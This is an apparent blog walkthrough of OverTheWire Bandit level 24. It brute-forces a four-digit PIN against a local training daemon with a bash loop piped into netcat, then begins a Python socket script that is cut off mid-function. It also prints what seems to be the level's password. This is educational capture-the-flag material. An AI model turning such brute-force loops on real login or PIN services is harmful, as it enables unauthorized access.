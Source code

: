 # Level 24 -> 25 #

[Level 24](http://overthewire.org/wargames/bandit/bandit25.html)

Here we need to bruteforce our way to the password. No point entering our
tries by hand, so let's leverage the power of bash. First create a loop
to print the values, so we can be sure the input to the netcat command is 
going to be right

{{< highlight console >}}
bandit24@melinda:~$ for i in $(seq -f "%04g" 0 9999); do echo 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '${i}; done
.
.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9856
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9857
.
.
{{< / highlight >}}

seems to ne what we want. Let's actually pass it onto the command. Because each 
iteration will take a while, we have plenty of time to stop it when it finds the 
right answer

{{< highlight console >}}
bandit24@melinda:~$ for i in $(seq -f "%04g" 0 9999); do echo 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '${i} | nc localhost 30002; done 
{{< / highlight >}}

But who wants to sit there watching a screen? A quick Python script and we can 
leave it running until it finds the right PIN.
Sometimes you just have to be patient.

{{< highlight python >}}
import socket

def netcat(hostname, port, content):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    s.sendall(content)
    s.shutdown(socket.SHUT_WR)
    while 1:
        data = s.recv(1024)
        if data == "":
            break
        if 'I am the pincode' in repr(data):
            continue

        if 'Wrong' in repr(data):
            print 'no:', content
            return 0
        else:
            print repr(data)
            print content
            return 1
